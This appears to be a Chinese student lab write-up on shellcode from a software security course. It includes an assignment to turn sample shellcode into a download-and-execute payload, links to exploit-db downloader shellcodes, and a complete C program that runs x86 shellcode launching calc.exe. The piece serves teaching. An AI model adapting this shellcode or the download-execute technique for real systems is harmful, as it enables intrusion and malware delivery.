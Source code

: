 ![](Images/5-7.png)

**可以发现相同的内存存入了不同的数据，为内存保护**

## Shellcode

### shellcode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。

### 作业要求

* 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
  - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
  - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

### 实验过程

- 实现运行计算器

  ```c
  #include <windows.h>
  #include <stdio.h>
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv) //运行上面的code
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```